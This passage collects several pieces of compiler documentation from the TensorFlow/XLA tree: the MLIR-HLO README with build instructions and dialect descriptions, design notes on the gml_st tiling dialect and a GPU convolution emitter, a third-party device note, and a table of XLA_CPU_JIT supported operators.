    a view to the same code to allow other projects to use this without
    depending on the entire TF monorepo.

This implements a self-contained compiler for a linear algebra set of operations
inspired by XLA
[HLO IR](https://www.tensorflow.org/xla/architecture#how_does_xla_work) using
MLIR components. It is designed to provide an end-to-end flow independent of
TensorFlow and XLA, but usable inside of these projects.

Coding practice and conventions in this repository follow the
[MLIR Developer Guide](https://mlir.llvm.org/getting_started/DeveloperGuide/) in
this repo as part of the intent to act as an incubator for technology to
upstream.

## QuickStart: building and testing

These instructions work on Linux, you may have to adjust for your platform.

To build the code in this repository, you need a clone of the LLVM/MLIR git
repository:

    $ git clone https://github.com/llvm/llvm-project.git


You need to make sure you have the right commit checked out in the LLVM
repository (you need to do this every time you pull from this repo):

    $ (cd llvm-project && git checkout $(cat build_tools/llvm_version.txt))

We provide a script to configure and build LLVM/MLIR:

    $ build_tools/build_mlir.sh ${PWD}/llvm-project/ ${PWD}/llvm-build

Again this is something to do every time you pull from this repository and the
LLVM revision changes.

Finally you can build and test this repository:

    $ mkdir build && cd build
    $ cmake .. -GNinja \
       -DLLVM_ENABLE_LLD=ON \
       -DCMAKE_BUILD_TYPE=Release \
       -DLLVM_ENABLE_ASSERTIONS=On \
       -DMLIR_DIR=${PWD}/../llvm-build/lib/cmake/mlir
    $ ninja check-mlir-hlo


## Overview

MLIR-HLO aims to provide an end-to-end compiler for CPU and GPU, as well as
building reusable blocks for other accelerators. This is heavily inspired by the
success of XLA.

[XLA](https://www.tensorflow.org/xla/) (Accelerated Linear Algebra) is a
domain-specific compiler framework and execution environment for linear algebra,
which powers code-generation for ML frameworks like TensorFlow, JAX, and others.

A cornerstone of XLA is the HLO (High Level Optimizer) IR, which offers a
carefully fixed selected list of operations, mostly orthogonal to each other. It
provides an efficient optimizer for computations expressed with this set of
operations and generate codes for hardware platforms like CPU, GPU, and TPUs.
Its goal is to provide a uniform interface to compile and execute these
optimized HLO programs independently of the targeted device. It is not a
front-end ML system like TensorFlow or JAX, rather it is a backend framework
that optimizes HLO and lowers to machine code.

The HLO set of operations is closed and has well defined semantics. HLO
operations operate on immutable Tensors with static shapes (actually bounded
shapes to be exact) and explicit broadcasts.

[MLIR](https://mlir.llvm.org/) is a compiler infrastructure which intends to
come with "battery included", as such it intends to provide all the blocks
required to assemble graph optimization and codegen pipelines. The longer term
roadmap for MLIR is to provide a
[Tensor Compute Primitive](https://llvm.discourse.group/c/mlir/MLIR-TCP-WG/36)
(TCP) dialect, which should hopefully be general enough to model what HLO
represents today (see
[slides](https://drive.google.com/open?id=1iljcpTQ5NPaMfGpoPDFml1XkYxjK_6A4) and
[recording](https://drive.google.com/open?id=1jSPa8TwPKUt0WuLquGc8OgSUVYJHMvWZ)
for a technical discussion on this topic).

The work on MLIR-HLO can be seen as a stepping stone towards building TCP, while
integrating intermediate components into XLA itself by relying on the
well-proven HLO IR and introducing more pieces from upstream MLIR
([Linalg](https://mlir.llvm.org/docs/Dialects/Linalg/),
[Vector](https://mlir.llvm.org/docs/Dialects/Vector/),
[GPU](https://mlir.llvm.org/docs/Dialects/GPU/) dialect, ...).
[This document](https://www.tensorflow.org/mlir/xla_gpu_codegen) provides more
information on the current migration of the XLA GPU codegen.

## MLIR Dialects for XLA-style compilation

This repository defines three dialects to support a HLO-like compilation
pipeline using MLIR:

*   `chlo`: the "client" HLO dialect, intended to be closer to the frontend
    (including implicit broadcast semantics).
*   `mhlo`: "meta"-HLO dialect ; similar to `xla_hlo`, but with extensions for
    dynamic shape support.
*   `lmhlo`: "late"-"meta"-HLO, it is the IR after buffer allocation is
    performed. In XLA the buffer allocation is a side-data structure which keeps
    track of these informations, while this separate dialect materializes it in
    the IR.

We describe these in more details below.

### HLO Client Dialect: `chlo`.

*   It was originally designed to map the
    [XLA client APIs](https://www.tensorflow.org/xla/operation_semantics) (e.g.,
    ops supports implicit broadcast and roughly modeled on XlaBuilder API)
    modulo support for dynamic shapes and additional ops required to support
    dynamic client side HLOs.
*   Ops can be from either the XlaBuilder or XLA helper functions can be
    converted into ops (e.g., given ambiguity in what constitutes these ops,
    there is some freedom to decide), the goal of this dialect is to correspond
    close to client level and enable a thin layer between client use and op
    construction (making it cheap to construct and optimizations on the dialect
    close to optimizations on the client ops).

Entry:

*   The vast majority of old "client" interactions are via the XlaBuilder APIs.
    These APIs are used by TF2XLA kernels, JAX, PyTorch bridge and directly. The
    legalization path (described below) can also reuse the XlaBuilder's APIs to
    construct XLA Client HLO ops directly (this uses MlirXlaBuilder which is a
    subclass of XlaBuilder).
*   The other entry point is during legalization from TensorFlow ops in the TF
    Graph Compiler and other tools (e.g., SavedModel lowering and TFCompile).

Exit:

*   MHLO
*   May be exported to xla::HloInstructionProto by invoking the XlaBuilder APIs
    (with regular XlaBuilder)

The `chlo` dialect started originally as mapping to the XLA client Builder APIs.
It enables it to both be constructed and converted back to existing XLA
interfaces using the XlaBuilder API. Due to the way that translation into and
out of the dialect works, there is no expectation that this dialect roundtrips
to XLA (e.g., it is only intended to be translated to MLIR and then legalized to
another dialect or translated to HloInstructionProto).

The export approach of reusing the XlaBuilders enables reusing a lot of logic
that was already implemented in terms of computing shapes, inserting broadcasts
etc.

An important topic here is that XLA Client HLO ops are not a well defined set.
And in particular what some would consider helper functions, others would
consider ops. It should be easy to move between these and so define a new op
along with the helper function or autogenerate the helper functions from the
descriptions of the ops. For the former, a simple approach would be to simply
consider the context in which the op is being constructed and if an MLIR one,
construct a op in the client dialect instead of further calls into XlaBuilder.
The latter could be implemented by adding the op and a legalization of the op to
other known ops, from which a helper function can get generated that could be
used as regular.

Status: Exists but need to be cleaned up.

### Meta HLO Dialect `mhlo`

*   Dialect is closer to current HLO server ops (e.g., no implicit broadcast)
*   MHLO dialect where we can deviate from the requirements of the client or
    server dialect, in particular:
    *   Control flow ops with implicit capture to enable simpler optimizations
        (e.g., generic LICM, unroll & jam, etc.)
    *   Multiple results ops (e.g., no tuples)
    *   More ops (for example, unique op or assert op), and ops that don't need
        to be added to either client or server dialect.
    *   Op set not constrained by implementation (e.g., hlo.add operating on say
        i79 or !mydialect.weird_type is allowed even though no XLA backend
        supports it). Verification on types happening at the boundaries.
    *   It does not need to preserve some deprecated XLA constructs (e.g.
        stateful RNG HLO).
    *   More dynamic shape support ops without need for updating all
        users/backends.
*   This dialect enables evolving HLO independently from XLA in order to
    experiment with features we'd like to upstream in MLIR TCP. In particular it
    intends to be user-extensible through
    [interfaces](https://mlir.llvm.org/docs/Interfaces/).
*   It should have no TensorFlow, or proto, or other Google internal
    dependencies.
*   It need not be a complete superset of ops compared to XLA HLO dialect.

Entry:

*   Legalization from `chlo` dialect or conversion from XLA HLO.
*   Directly emitted from TF Graph Compiler;
*   Builder call (e.g., EDSL);

Exit:

*   LMHLO, Linalg IREE, directly used in codegen.
*   XLA HLO.

The MHLO dialect has no direct export format, it is only meant as an
intermediate optimization dialect/format. It is also where we can experiment
cheaply with new ops. This format will be where the representation would differ
from existing endpoints.

Status: Exists but need to be cleaned up and evolved, in particular with respect
to supporting dynamic shapes.

MHLO differs from XLA HLO op set in multiple ways, including:
1. MHLO While accepts multiple operands and may produce multiple results
   instead;

### LMHLO

LMHLO corresponds to late `mhlo` and operates on buffer domain (e.g., memref)
with side-effecting operations. The lowering from `mhlo` dialect proceeds by way
of scheduling, memory and buffer allocation. The current mapping is directly on
XLA Client HLOs but without implicit broadcast and with operation on memrefs.
This dialect will instead be rebased on `mhlo` dialect but operating on buffers
still.

Entry:

*   Post buffer assignment on `mhlo` dialect, or from XLA after buffer
    assignment.

Exit:

*   Codegen (LLVM IR in the common cases at the moment)

## End-to-End pipeline

TODO

## Alternative build setups

### Building Python API

Building the MHLO Python API requires building as an LLVM external project.
The below instructions presume that you have this `mlir-hlo` repo and an
`llvm-project` repo checked out side by side.

Note that the python package produced by this procedure includes the `mlir`
package and is not suitable for deployment as-is (but it can be included into
a larger aggregate).

```
mkdir build && cd build
cmake -GNinja -B. ${LLVM_SRC_DIR}/llvm \
    -DCMAKE_BUILD_TYPE=Release \
    -DLLVM_ENABLE_PROJECTS=mlir \
    -DLLVM_EXTERNAL_PROJECTS=mlir_hlo \
    -DLLVM_EXTERNAL_MLIR_HLO_SOURCE_DIR=${MLIR_HLO_SRC_DIR} \
    -DLLVM_TARGETS_TO_BUILD=host \
    -DPython3_EXECUTABLE=$(which python) \
    -DMLIR_ENABLE_BINDINGS_PYTHON=ON \
    -DMHLO_ENABLE_BINDINGS_PYTHON=ON

ninja MLIRHLOPythonModules
export PYTHONPATH=$PWD/tools/mlir_hlo/python_packages/mlir_hlo
python -c "import mlir.dialects.mhlo"
```

## External projects that depend on mlir-hlo

External projects that need to depend on `mlir-hlo` (for example via a git
submodule) can use the following setting in their cmake configuration in order
for `find_package(MHLO)` to import all mlir-hlo cmake targets into their build
setup and have access to the required include and lib variables (see generated
`MHLOConfig.cmake`).

```
...
   -DMHLO_DIR=<path to mlir-hlo build dir>/lib/cmake/mlir-hlo
   ...
```
# Google ML Structured Dialect
 
The `gml_st` dialect will contain a loop-like construct and subset operations
that should allow support for fusion beyond rectangular tiles. This is necessary
for operations like `gather`, `scatter`, `concat` and more.

## Overview
### Tiling and fusion

Tiling of an op is performed by creating a loop that computes subsets of the
result. Usually the tiling is needed to enable vectorization or distribution.

Before tiling

```
%0 = op(%input)
```

After tiling

```
loop (%ivs)
  %1 = subset(%input, %ivs)
  %2 = op (%1)
```

Fusion of a producer op into a tiled consumer consists of two main parts:
computing subsets of producer's operands and moving the producer op into the
loop body so that it operates on the subsets of its original operands.

After consumer tiling
```
%0 = producer (%input)
loop (%ivs)
  %1 = subset(%0, %ivs)
  %2 = consumer(%1)
```

After producer fusion

```
loop (%ivs)
  %0 = subset(%input, %ivs)
  %1 = producer(%0)
  %2 = consumer (%1)
```

There is some duality between tiling and fusion. One can consider tiling as
fusion of the op into a loop that partitions the iteration space and just
returns identity for every subset. On the other hand, fusion can be seen as
tiling of the producer and then merging of the loop bodies.

### Subset operations

Linalg has support for hyperrectangular subsets (tiles) of tensor/memref
operands. Currently, Linalg's fusion assumes that the tiling is performed only
using `tensor.extract_slice/tensor.insert_slice` and `memref.subview`
operations.
There are several disadvantages to that approach:

If some of the operands are not affected by tiling, i.e. the tiling was
performed along dimensions that are not present in the operand, then we cannot
fuse anymore the producer of the operand. That can happen when `linalg.generic`
broadcasts one of the operands or when the output is tiled, but not the
reduction dimensions

Support for fusion with ops like `gather`, `scatter`, `concat` for some of the
cases can only be done via `TilingInterface`
([RFC](https://llvm.discourse.group/t/rfc-for-tilinginterface-for-tiling-operations-that-dont-fit-into-linalg-structured-operation-definition/3897/7)).

**Example of a tiled op**

```
%sum = linalg.tiled_loop (%i, %j) = (%c0, %c0) to (%c80, %c60) step (%c4, %c4)
          ins (%in_ = %in: tensor<80x60xf32>, %cst_ = %cst: f32)
          outs (%out_ = %out: tensor<80xf32>)
          iterators["parallel", "reduction"] {
  %in_sub = tensor.extract_slice %in_[%i, %j] [4, 4] [1, 1]
      : tensor<80x60xf32> to tensor<4x4xf32>
  %out_sub = tensor.extract_slice %out_[%i] [4] [1]
      : tensor<80xf32> to tensor<4xf32>
  %reduction = linalg.generic {
      indexing_maps = [affine_map<(d0, d1) -> (d0, d1)>,
                       affine_map<(d0, d1) -> (d0)>],
      iterator_types = ["parallel", "reduction"]}
      ins(%in_sub : tensor<4x4xf32>)
      outs(%out_sub : tensor<4xf32>) {
    ^bb0(%a: f32, %b: f32):
      %0 = arith.addf %a, %b : f32
      linalg.yield %0 : f32
  } -> tensor<4xf32>
  %update = tensor.insert_slice %reduction into %out_[%i] [4] [1]
      : tensor<4xf32> into tensor<80xf32>
  linalg.yield %update : tensor<80xf32>
}
```

The body of this loop models read-modify-write of the output tensor. The tile
that we extract from `%out_` should have the same sizes/offsets/strides as the
destination of `tensor.insert_slice`. The arguments of `tensor.extract_slice`
and `tensor.insert_slice` are currently not required to encode the same tile.

We introduce new operations that define subsets on tensors/memrefs

 * `subset.full %tensor` - the subset spans the original tensor fully
 * `subset.tile %tensor [%offsets][%sizes][%strides]` - defines a rectangular
   tile
 * `subset.filter %tensor[%indices]` - the subset has the same shape as the
   original tensor, but only the values at %indices are populated. This can be a
   sparse tensor.
 * `subset.point %tensor[%index]` - the subset contains a single element

### Structured loop

We introduce `gml_st.loop` that keeps the subset definition separately from the
materialization.

`linalg.generic` has `AffineMap` attributes that specify the indexing maps and a
region that models the computation on the element types of the operand
tensors/memrefs. The region ends with `linalg.yield` terminator that yields the
element of the output. The load and store ops in that case are implicit, so
are extraction/insertion in `gml_st.loop`.

`gml_st.loop` has one region that contains subset operations to define the
dense/sparse ranges that we are working with and also `gml_st.materialize` ops
to convert subset spec to a tensor or memref.

`gml_st.yield` is the terminator for `gml_st.loop` that takes computed tensors
and a subset specification for which the computation was done. Note that this
way we don't have to explicitly write a destructive update with
`tensor.insert_slice` and then yield a full tensor. Here, we yield values for a
subset.


```
%sum = gml_st.loop (%i, %j) = (%c0, %c0) to (%c80, %c60) step (%c4, %c4)
           ins (%in_ = %in: tensor<80x60xf32>, %cst_ = %cst: f32)
           outs (%out_ = %out: tensor<80xf32>)
           iterators["parallel", "sequential"] {
  %in_tile = gml_st.tile %in_[%i, %j] [4, 4] [1, 1]
      : tensor<80x60xf32> to !gml_st.subset<4x4xf32>
  %out_tile = gml_st.tile %out_[%i] [4] [1]
      : tensor<80xf32> to !gml_st.subset<4xf32>

  %in_sub = gml_st.materialize %in_tile
      : !gml_st.subset<4x4xf32> to tensor<4x4xf32>
  %out_sub = gml_st.materialize %in_tile
      : !gml_st.subset<4xf32> to tensor<4xf32>
  %reduction = linalg.generic {
      indexing_maps = [affine_map<(d0, d1) -> (d0, d1)>,
                       affine_map<(d0, d1) -> (d0)>],
      iterator_types = ["parallel", "reduction"]}
      ins(%in_sub : tensor<4x4xf32>)
      outs(%out_sub : tensor<4xf32>) {
    ^bb0(%a: f32, %b: f32):
      %0 = arith.addf %a, %b : f32
      linalg.yield %0 : f32
  } -> tensor<4xf32>
  gml_st.yield %reduction to %out_tile
      : tensor<4xf32> to !gml_st.subset<4xf32>
}
```

Currently, tiling of the consumer and fusion of its producers are tightly
coupled. If the fusion is happening not in the same pass, then some analysis is
required to find the [consumer - `tensor.extract_slice` - producer] triple to
perform the fusion. Keeping the subset computations separately from the
"compute" ops not only improves readablity but also simplifies fusion, since we
have a subset computation per operand and we can just specify what argument of
the loop we want to fuse.

It also simplifies the bufferization, since we don't need to introduce the
additional operations in MemRef dialect for every subset operation in TensorOps.
# Convolution Emitter

## Context

This is a doc that describes a set of patches that are still under review.
TODO(timshen): Change once all patches are checked in.

The convolution emitter is a prototype with the following goals:

*   The top priority is performance.
*   It supports arbitrarily sophisticated layouts.
*   It supports platform-specific high-performance instructions.
*   It is as portable as possible.
*   It enables fusion support in the future.

## Current Design

### Overview

The prototype consists of the following components:

*   The emitter currently focuses on NVIDIA Volta architecture and N(C/4)HW4
    layout.
*   An MLIR-based emitter. It takes a set of tuning parameters and a convolution
    configuration, then produces a NVVM device function.
*   An autotuner, which generates tuning parameters given a convolution
    configuration.
*   A test framework, which executes the generated device function with random
    inputs, and compares the result against cuDNN.

### The Emitter - Naive Implementation

The emitter starts with a hand-built, naive implementation that looks like
following Resnet first layer convolution (pseudo code):

```mlir
func @Conv(%input : memref<128x1x224x224xvector<4xf16>>,
           %filter : memref<64x1x7x7xvector<4xf16>>,
           %output : memref<128x64x224x224xf16>) {
  affine.parallel (%n, %o, %oh, %ow) = 0 to 128, 0 to 64, 0 to 112, 0 to 112 {
    %acc = alloc() : memref<f32>
    affine.store 0, %acc[]
    affine.for (%c, %fh, %fw) = 0 to 1, 0 to 7, 0 to 7 {
      %a = affine.padded.load %input[%n, %c, %oh * 2 + %fh - 3, %ow * 2 + %fw - 3]
      %b = affine.load %filter[%o, %c, %fh, %fw]
      %c = affine.load %acc[]
      %d = std.fpext %a to vector<4xf32>
      %e = std.fpext %b to vector<4xf32>
      %f = std.multiply %d, %e
      %g = "reduce" %f
      %v = %g + %c
      affine.store %v, %acc[]
    }
    %c = affine.load %acc[]
    affine.store %acc, %output[%n, %o, %oh, %ow]
  }
}
```

A few extensions are used in the example above:

*   affine.padded.load allows out-of-bounds access, in which case the result is
    always 0.
*   The "reduce" operation produces the sum of elements in a vector.

Also notice that the input element type is vector<4xf16> only because the
current implementation does so. A MemRef with <...x4xf16> should work as well,
given the alignment properly aligned to at least 8 (usually 16).

Then the emitter does a few semantic preserving transformations to work the code
towards PTX's structure.

### The Emitter - Tiling

The following is the naive code after loop tiling:

```mlir
func @Conv(%input : memref<128x1x224x224xvector<4xf16>>,
           %filter : memref<64x1x7x7xvector<4xf16>>,
           %output : memref<128x64x224x224xf16>) {
  affine.parallel (%n0, %o0, %oh0, %ow0) = 0 to 128, 0 to 1, 0 to 7, 0 to 7 {
    affine.parallel (%n1, %o1, %oh1, %ow1) = 0 to 1, 0 to 64, 0 to 16, 0 to 16 {
      %acc = alloc() : memref<f32>
      affine.store 0, %acc[]
      affine.for (%c0, %fh0, %fw0) = 0 to 1, 0 to 1, 0 to 1 {
        affine.for (%c1, %fh1, %fw1) = 0 to 1, 0 to 7, 0 to 7 {
          %a = affine.padded.load %input[
              %n0 * 1 + %n1,
              %c0 * 1 + %c1,
              (%oh0 * 16 + %oh1) * 2 + %fh0 * 7 + %fh1 - 3,
              (%ow0 * 16 + %ow1) * 2 + %fw0 * 7 + %fw1 - 3]
          %b = affine.load %filter[
              %o0 * 64 + %o1,
              %c0 * 1 + %c1,
              %fh0 * 7 + %fh1,
              %fw0 * 7 + %fw1]
          %old = affine.load %acc[]
          %d = std.fpext %a to vector<4xf32>
          %e = std.fpext %b to vector<4xf32>
          %f = std.multiply %d, %e
          %g = "reduce" %f
          %new = %g + %old
          affine.store %new, %acc[]
        }
      }
      %v = affine.load %acc[]
      affine.store %v, %output[
          %n0 * 1 + %n1,
          %o0 * 64 + %o1,
          %oh0 * 16 + %oh1,
          %ow0 * 16 + %ow1]
    } { ptx_block }
  } { ptx_grid }
}
```

The motivation is obvious - we need to decide which loops are parallelized on
the compute units in the PTX architecture. The `ptx_grid` and `ptx_block`
directs that the loop should be parallelized on a grid / a block, respectively.

Also notice that to keep the code pattern clean and neat, tiling is implemented
in the following way. Defining "simple loop" as a loop with lower bound 0, and
step 1, the tiling:

*   only takes simple loops.
*   only produces simple loops.
*   no extra operation is generated. All altered index calculations are done in
    each user AffineMaps.

The contracting dimensions (%c, %fh, %fw) are also tiled for once. The
significance will be seen later in shared memory promotion.

### The Emitter - Splitting

This step splits the body of the (%n1, %o1, %oh1, %ow1) loop into several parts:

*   The code that sets the accumulators to 0.
*   The actual convolution computation code.
*   The code that writes back accumulators to the %output buffer.

This transformation "vectorizes" the accumulator accordingly as the `alloc()`
gets hoisted out of the `affine.parallel` op.

After splitting:

```mlir
func @Conv(%input : memref<128x1x224x224xvector<4xf16>>,
           %filter : memref<64x1x7x7xvector<4xf16>>,
           %output : memref<128x64x224x224xf16>) {
  affine.parallel (%n0, %o0, %oh0, %ow0) = 0 to 128, 0 to 1, 0 to 7, 0 to 7 {
    %acc = alloc() : memref<1x64x16x16xf32>
    affine.parallel (%n1, %o1, %oh1, %ow1) = 0 to 1, 0 to 64, 0 to 16, 0 to 16 {
      affine.store 0, %acc[%n1, %o1, %oh1, %ow1]
    } { ptx_block }
    affine.parallel (%n1, %o1, %oh1, %ow1) = 0 to 1, 0 to 64, 0 to 16, 0 to 16 {
      affine.for (%c0, %fh0, %fw0) = 0 to 1, 0 to 1, 0 to 1 {
        affine.for (%c1, %fh1, %fw1) = 0 to 1, 0 to 7, 0 to 7 {
          %a = affine.padded.load %input[
              %n0 * 1 + %n1,
              %c0 * 1 + %c1,
              (%oh0 * 16 + %oh1) * 2 + %fh0 * 7 + %fh1 - 3,
              (%ow0 * 16 + %ow1) * 2 + %fw0 * 7 + %fw1 - 3]
          %b = affine.load %filter[
              %o0 * 64 + %o1,
              %c0 * 1 + %c1,
              %fh0 * 7 + %fh1,
              %fw0 * 7 + %fw1]
          %old = affine.load %acc[%n1, %o1, %oh1, %ow1]
          %d = std.fpext %a to vector<4xf32>
          %e = std.fpext %b to vector<4xf32>
          %f = std.multiply %d, %e
          %g = "reduce" %f
          %new = %g + %old
          affine.store %new, %acc[%n1, %o1, %oh1, %ow1]
        }
      }
    } { ptx_block }
    affine.parallel (%n1, %o1, %oh1, %ow1) = 0 to 1, 0 to 64, 0 to 16, 0 to 16 {
      %v = affine.load %acc[%n1, %o1, %oh1, %ow1]
      affine.store %v, %output[
          %n0 * 1 + %n1,
          %o0 * 64 + %o1,
          %oh0 * 16 + %oh1,
          %ow0 * 16 + %ow1]
    } { ptx_block }
  } { ptx_grid }
}
```

To prepare for the next transformations, we'd also like to sink the (%n1, %o1,
%oh1, %ow1), as (%c0, %fh0, %fw0) is not interesting.

```
affine.parallel (%n1, %o1, %oh1, %ow1) = 0 to 1, 0 to 64, 0 to 16, 0 to 16 {
  affine.for (%c0, %fh0, %fw0) = 0 to 1, 0 to 1, 0 to 1 {
    affine.for (%c1, %fh1, %fw1) = 0 to 1, 0 to 7, 0 to 7 {
      ...
    }
  }
} { ptx_block }

=>

affine.for (%c0, %fh0, %fw0) = 0 to 1, 0 to 1, 0 to 1 {
  affine.for (%c1, %fh1, %fw1) = 0 to 1, 0 to 7, 0 to 7 {
    affine.parallel (%n1, %o1, %oh1, %ow1) = 0 to 1, 0 to 64, 0 to 16, 0 to 16 {
      ...
    } { ptx_block }
  }
}
```

### The Emitter - Shared Memory Promotion

This transformation is done by `affineDataCopyGenerate`, which does precise
calculation on how much memory is transferred for a load operation.

After calculating the sizes of the shared memory buffer (`%promoted_input` and
`%promoted_filter`), the transformation also creates loads and stores to
pre-fetch data from global memory (`%input`, `%filter`) to the promoted, shared
memory.

```mlir
// Before
affine.for (%c1, %fh1, %fw1) = 0 to 1, 0 to 7, 0 to 7 {
  affine.parallel (%n1, %o1, %oh1, %ow1) = 0 to 1, 0 to 64, 0 to 16, 0 to 16 {
    %a = affine.padded.load %input[
        %n0 * 1 + %n1,
        %c0 * 1 + %c1,
        (%oh0 * 16 + %oh1) * 2 + %fh0 * 7 + %fh1 - 3,
        (%ow0 * 16 + %ow1) * 2 + %fw0 * 7 + %fw1 - 3]
    %b = affine.load %filter[
        %o0 * 64 + %o1,
        %c0 * 1 + %c1,
        %fh0 * 7 + %fh1,
        %fw0 * 7 + %fw1]
    %old = affine.load %acc[%n1, %o1, %oh1, %ow1]
    %d = std.fpext %a to vector<4xf32>
    %e = std.fpext %b to vector<4xf32>
    %f = std.multiply %d, %e
    %g = "reduce" %f
    %new = %g + %old
    affine.store %new, %acc[%n1, %o1, %oh1, %ow1]
  } { ptx_block }
}
```

```mlir
// After

%promoted_input = alloc() : memref<1x1x37x37, memory_space = 3>
%promoted_filter = alloc() : memref<64x1x7x7, memory_space = 3>
affine.parallel (%i0, %i1, %i2, %i3) = 0 to 1, 0 to 1, 0 to 37, 0 to 37 {
  %v = affine.padded.load %input[
      %n0 * 1 + %i0,
      %c0 * 1 + %i1,
      (%oh0 * 16) * 2 + %fh0 * 7 + %i2 - 3,
      (%ow0 * 16) * 2 + %fw0 * 7 + %i3 - 3]
  affine.store %v, %promoted_input[%i0, %i1, %i2, %i3]
} { ptx_block }
affine.parallel (%i0, %i1, %i2, %i3) = 0 to 64, 0 to 1, 0 to 7, 0 to 7 {
  %v = affine.load %filter[
      %o0 * 64 + %i0,
      %c0 * 1 + %i1,
      %fh0 * 7 + %i2,
      %fw0 * 7 + %i3]
  affine.store %v, %promoted_filter[%i0, %i1, %i2, %i3]
} { ptx_block }
affine.for (%c1, %fh1, %fw1) = 0 to 1, 0 to 7, 0 to 7 {
  affine.parallel (%n1, %o1, %oh1, %ow1) = 0 to 1, 0 to 64, 0 to 16, 0 to 16 {
    %a = affine.load %promoted_input[%n1, %c1, %oh1 * 2 + %fh1, %ow1 * 2 + %fw1]
    %b = affine.load %promoted_filter[%o1, %c1, %fh1, %fw1]
    %old = affine.load %acc[%n1, %o1, %oh1, %ow1]
    %d = std.fpext %a to vector<4xf32>
    %e = std.fpext %b to vector<4xf32>
    %f = std.multiply %d, %e
    %g = "reduce" %f
    %new = %g + %old
    affine.store %new, %acc[%n1, %o1, %oh1, %ow1]
  } { ptx_block }
}
```

### The Emitter - Volta MMA Instruction

This transformation turns the inner loop:

```mlir
affine.parallel (%n1, %o1, %oh1, %ow1) = 0 to 1, 0 to 64, 0 to 16, 0 to 16 {
  %a = affine.load %promoted_input[%n1, %c1, %oh1 * 2 + %fh1, %ow1 * 2 + %fw1]
  %b = affine.load %promoted_filter[%o1, %c1, %fh1, %fw1]
  %old = affine.load %acc[%n1, %o1, %oh1, %ow1]
  %d = std.fpext %a to vector<4xf32>
  %e = std.fpext %b to vector<4xf32>
  %f = std.multiply %d, %e
  %g = "reduce" %f
  %new = %g + %old
  affine.store %new, %acc[%n1, %o1, %oh1, %ow1]
} { ptx_block }
```

to multiple Volta mma.sync instructions. The result is not shown here, because
the prototype currently only hacks it up to achieve benchmark goals.

### The Autotuner

As shown above, many parameters dictate how a naive implementation is
transformed. For now, the parameters are all tile sizes. On the top of the
emitter, the prototype includes a simple autotuner that enumerates all good
combinations of tile sizes and invoke the emitter with each of the combinations.
With the assistance of in-process benchmarking, the autotuner is able to pick
the best set of parameters.

## Future Improvements

*   Explore Linalg/Vector for a higher-level naive implementation. MMA
    instruction handling would be much easier with high-level functional
    constructs.
*   Explore other layouts. The current layout corresponds to NVIDIA
    `CUDNN_TENSOR_NCHW_VECT_C` but for fp16s.
*   Iron out GPU dialect related lowering. Annotations like `ptx_grid` and
    `ptx_block` should be generalized to more architectures.
*   Speed up autotuning through more pruning.
*   Support dynamic shapes.
## 3rd party XLA devices

This directory is intended as a place for 3rd party XLA devices which are _not_
integrated into the public repository.

By adding entries to the BUILD target in this directory, a third party device
can be included as a dependency of the JIT subsystem.

For integration into the unit test system, see the files:

-   tensorflow/compiler/tests/plugin.bzl
-   tensorflow/compiler/xla/tests/plugin.bzl
**Supported operators for device: XLA_CPU_JIT**

Operator                              | Type Constraint
------------------------------------- | ---------------
`Abs`                                 | `T={double,float,int32,int64}`
`Acos`                                | `T={complex64,double,float,int32,int64}`
`Acosh`                               | `T={complex64,double,float}`
`Add`                                 | `T={complex64,double,float,int32,int64}`
`AddN`                                | `T={complex64,double,float,int32,int64,uint32,uint64}`
`AdjustContrastv2`                    |
`AdjustHue`                           |
`AdjustSaturation`                    |
`All`                                 | `Tidx={int32,int64}`
`Angle`                               | `Tout={double,float}`<br>`T={complex64}`
`Any`                                 | `Tidx={int32,int64}`
`ApproximateEqual`                    | `T={complex64,double,float,int32,int64,uint32,uint64}`
`ArgMax`                              | `Tidx={int32,int64}`<br>`output_type={int32,int64}`<br>`T={float}`
`ArgMin`                              | `Tidx={int32,int64}`<br>`output_type={int32,int64}`<br>`T={complex64,double,float,int32,int64,uint32,uint64}`
`Asin`                                | `T={complex64,double,float,int32,int64}`
`Asinh`                               | `T={complex64,double,float}`
`AssignAddVariableOp`                 | `dtype={complex64,double,float,int32,int64,uint32,uint64}`
`AssignSubVariableOp`                 | `dtype={complex64,double,float,int32,int64,uint32,uint64}`
`AssignVariableOp`                    | `dtype={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Atan`                                | `T={complex64,double,float,int32,int64}`
`Atan2`                               | `T={double,float}`
`Atanh`                               | `T={complex64,double,float}`
`AvgPool`                             | `T={double,float}`
`AvgPool3D`                           | `T={double,float}`
`AvgPool3DGrad`                       | `T={double,float}`
`AvgPoolGrad`                         | `T={double,float}`
`BatchMatMul`                         | `T={complex64,double,float,int32}`
`BatchToSpace`                        | `Tidx={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`BatchToSpaceND`                      | `Tcrops={int32,int64}`<br>`Tblock_shape={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`BiasAdd`                             | `T={complex64,double,float,int32,int64,uint32,uint64}`
`BiasAddGrad`                         | `T={complex64,double,float,int32,int64,uint32,uint64}`
`BiasAddV1`                           | `T={complex64,double,float,int32,int64,uint32,uint64}`
`BitwiseAnd`                          | `T={int32,int64,uint32,uint64}`
`BitwiseOr`                           | `T={int32,int64,uint32,uint64}`
`BroadcastArgs`                       | `T={int32,int64}`
`BroadcastGradientArgs`               | `T={int32,int64}`
`Cast`                                | `DstT={bool,complex64,double,float,int32,int64,uint32,uint64}`<br>`SrcT={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Ceil`                                | `T={double,float}`
`Cholesky`                            | `T={double,float}`
`Complex`                             | `Tout={complex64}`<br>`T={double,float}`
`ComplexAbs`                          | `Tout={double,float}`<br>`T={complex64}`
`Concat`                              | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`ConcatOffset`                        |
`ConcatV2`                            | `Tidx={int32}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Conj`                                | `T={complex64}`
`Const`                               | `dtype={bool,complex64,double,float,int32,int64,uint32,uint64}`
`ControlTrigger`                      |
`Conv2D`                              | `T={float}`
`Conv2DBackpropFilter`                | `T={float}`
`Conv2DBackpropInput`                 | `T={float}`
`Conv3D`                              | `T={double,float}`
`Conv3DBackpropFilterV2`              | `T={double,float}`
`Conv3DBackpropInputV2`               | `T={double,float}`
`Cos`                                 | `T={complex64,double,float}`
`Cosh`                                | `T={complex64,double,float}`
`Cross`                               | `T={double,float,int32,int64,uint32,uint64}`
`Cumprod`                             | `Tidx={int32,int64}`<br>`T={float}`
`Cumsum`                              | `Tidx={int32,int64}`<br>`T={float}`
